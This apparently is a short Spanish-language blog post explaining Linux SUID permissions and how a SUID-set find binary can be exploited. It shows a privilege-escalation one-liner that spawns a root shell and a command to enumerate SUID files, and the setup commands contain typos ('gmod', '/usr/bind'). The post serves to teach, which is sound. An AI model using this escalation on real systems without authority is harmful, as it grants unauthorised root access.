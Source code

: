 ```yaml
---
date: 2021-09-07T00:22:05.000Z
layout: post
comments: true
title: Permisos SIUD
subtitle: 'y su explotación'
description: >-
image: >-
  http://imgfz.com/i/Q8pIHbz.png
optimized_image: >-
  http://imgfz.com/i/Q8pIHbz.png
category: ciberseguridad
tags:
  - permisos
  - linux
  - GNU
  - ciberseguridad
  - hacking
author: Felipe Canales Cayuqueo
paginate: true
---
```

Este tipo de permiso establece el ID de usuario del propietario de manera temporal, el cual se consigue agregando un 4 al momento de otorgar los permisos:
```bash
Si antes se realizaba
root> gmod 755 /usr/bind/find
[-rwxr-xr-x]

Ahora si quieres agregar el permiso SIUD, se debe colocar de la siguiente forma
root> gmod 4755 /usr/bind/find
[-rwsr-xr-x]

```

Ahora en este caso se lo asignamos a ```find```, el problema es que esto es vulnerable pues si aplicamos el siguiente comando, podremos obtener acceso como root:

```bash
user@user:~$ find . -exec /bin/sh -p \; -quit
# whoami
root

```
>https://gtfobins.github.io/gtfobins/find/

Esto pasa debido a que a user se le asigna de manera temporal el permiso de root (propietario), y en el caso mostrado se abre una shell aprovechando la vulnerabilidad.

Para encontrar ficheros con permisos SIUD, se puede con el siguiente comando:

```bash
find / -perm -4000 -exec ls -l {} \; 2>/dev/null
```
